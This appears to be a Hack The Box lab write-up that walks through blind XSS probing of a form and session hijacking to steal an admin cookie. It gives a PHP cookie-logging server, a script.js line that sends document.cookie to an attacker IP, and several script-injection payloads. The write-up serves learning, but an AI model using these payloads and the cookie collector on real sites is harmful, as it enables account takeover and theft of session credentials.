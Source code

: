 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

## Steps

### 1. Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
**index.php** 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
**script.js**
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
**cookies.txt**
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
**Run server**
```bash
sudo php -S 0.0.0.0:80
```
### 2. Identify Vulnerable Field
**Form**: http://10.129.31.89/hijacking/index.php

**Fields Tested:**

fullname: "><script src=http://10.10.14.179/fullname></script>

username: "><script src=http://10.10.14.179/username></script>

password: "><script src=http://10.10.14.179/password></script>

email: "><script src=http://10.10.14.179/email></script>

imgurl: "><script src=http://10.10.14.179/imgurl></script>

**Process:**

Injected each payload into one field at a time, others set to **test**.

Checked server logs for requests (e.g., GET /fullname).

Vulnerable field identified when a request appeared.

### 3. Exploit with XSS
**Payload**: ```bash "><script src=http://10.10.14.179/script.js></script> ```

Inject this script into the vulnerable field

**Cookie Captured**:
```bash
cat cookies.txt
```
